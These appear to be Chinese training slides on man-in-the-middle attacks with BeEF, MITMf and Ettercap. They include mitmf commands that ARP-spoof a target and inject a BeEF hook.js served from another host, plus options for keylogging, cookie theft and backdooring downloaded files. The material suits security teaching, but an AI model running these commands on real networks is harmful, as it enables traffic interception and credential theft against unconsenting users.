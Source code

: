 
## 中间人攻击

###  启动beef

- cd /usr/share/beef-xss/
- ./beef

###  mitmf中间人注入xss脚本

- mitmf --spoof --arp-i eth0 --gateway 1.1.1.1 --target 1.1.1.2 --inject
    --js-url [http://1.1.1.3:3000/hook.js](http://1.1.1.3:3000/hook.js)
- mitmf --spoof --arp-i eth0 --gateway 192.168.20.2 --target
    192.168.20.1 --jskeylogger
- --upsidedownternet、--screen（/var/log/mitmf）
- --ferretng（cookie）、--browserprofiler（浏览器及插件信息）
- --smbtrap、--smbauth（不演示）


## 中间人攻击

###  --hsts

- HTTP Strict Transport Security
- 防止协议降级、cookie窃取
- 安全策略通过HTTP响应头”Strict-Transport-Security“实施
- 限制user-agent、https等

###  --filepwn

##### – 凌空插后门


## 中间人攻击

###  Ettercap

##### – 统一的中间人攻击工具

##### – 转发MAC与本机相同，但IP与本机不同的数据包

##### – 支持SSH1、SSL中间人攻击

###  模块划分

- Snifer
- MITM
- Filter
- Log
- Plugin

